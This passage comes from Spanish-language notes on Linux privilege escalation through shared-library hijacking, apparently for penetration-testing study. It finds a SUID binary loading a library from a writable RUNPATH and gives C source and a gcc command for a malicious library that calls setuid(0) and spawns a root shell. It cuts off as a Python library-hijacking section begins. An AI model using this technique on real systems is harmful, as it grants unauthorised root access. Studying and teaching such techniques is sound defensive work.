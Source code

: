 	# comprobamos que el binario tiene el bit suid
	ls -la payroll
	-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
	# Comprobamos las librerías que carga el binario
	ldd payroll
	linux-vdso.so.1 =>  (0x00007ffcb3133000)
	libshared.so => /development/libshared.so (0x00007f0c13112000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
	```
- Encontramos alguna librería no estándar, como `libshared.so`
- Runpath también es una ruta embedida dentro del binario que hace que se busquen liberías en esta ruta. Podemos verlo del siguiente modo:
	```bash
	readelf -d payroll  | grep PATH
	
	 0x000000000000001d (RUNPATH)            Library runpath: [/development]
	```
- Si tenemos permisos de escritura en la carpeta `/development`, podemos crear un binario malicioso del siguiente modo: 
	```c
	#include<stdio.h>
	#include<stdlib.h>
	#include<unistd.h>
	
	void dbquery() {
	    printf("Malicious library loaded\n");
	    setuid(0);
	    system("/bin/sh -p");
	} 
	```
- Compilarlo 
	```bash
	gcc src.c -fPIC -shared -o /development/libshared.so
	```
	y al ejecutar payroll, tendremos una shell con permisos de `root`
### Secuestro de librerías de python
#### Importando librerías
- Supongamos que ejecutamos una función en python que tiene permisos SUID/SGID
	```bash
	 ls -l mem_status.py
	
	-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py
	```
-  Revisando el código de la función vemos que importa una librería, `psutil`, y carga una función, `virtual_memory()`
	```python
	#!/usr/bin/env python3
	import psutil
	